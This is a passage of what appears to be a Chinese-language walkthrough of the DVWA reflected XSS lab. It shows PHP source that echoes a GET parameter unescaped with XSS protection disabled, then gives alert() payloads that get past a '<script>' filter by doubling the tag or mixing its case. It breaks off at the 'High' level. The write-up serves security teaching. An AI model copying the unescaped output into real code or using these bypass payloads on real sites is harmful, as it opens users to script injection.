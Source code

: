     <?php
    
    header ("X-XSS-Protection: 0");
    
    // Is there any input?
    if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
        // Feedback for end user
        echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
    }
    
    ?> 
    
        

没有任何过滤，尝试输入`<script>alert(1)<script>`后直接弹窗-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210320144944562.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## Medium

### 源代码

    <?php
    
    header ("X-XSS-Protection: 0");
    
    // Is there any input?
    if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
        // Get input
        $name = str_replace( '<script>', '', $_GET[ 'name' ] );
    
        // Feedback for end user
        echo "<pre>Hello ${name}</pre>";
    }
    
    ?> 
    
        

源代码中有str\_replace函数

    str_replace( '<script>', '', $_GET[ 'name' ] );
    
        

这个函数将`<script>`替换成NULL，这里可以使用大小写绕过或双写绕过的方式

1.  双写绕过：

    <sc<script>ript>alert(1)</script>
    
        

2.  大小写绕过：

    <Script>alert(1)</script>
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20210320145526232.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl81NDY0ODQxOQ%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## High

